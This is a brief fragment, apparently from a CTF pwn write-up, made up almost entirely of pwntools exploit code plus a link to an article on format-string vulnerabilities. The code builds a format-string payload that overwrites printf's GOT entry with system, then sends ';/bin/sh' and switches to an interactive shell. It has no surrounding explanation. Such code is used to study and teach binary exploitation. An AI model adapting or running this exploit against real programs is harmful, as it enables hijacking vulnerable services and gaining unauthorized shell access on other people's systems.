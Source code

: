 ```python


payload=b'a'+fmtstr_payload(8,{printf_got:system},write_size = "byte",numbwritten = 0xa)
#p.recvuntil(':')
r.sendline(payload)

r.sendline(';/bin/sh\x00')
r.interactive()
```
[pwn格式化字符串漏洞](https://www.anquanke.com/post/id/253647#h2-1)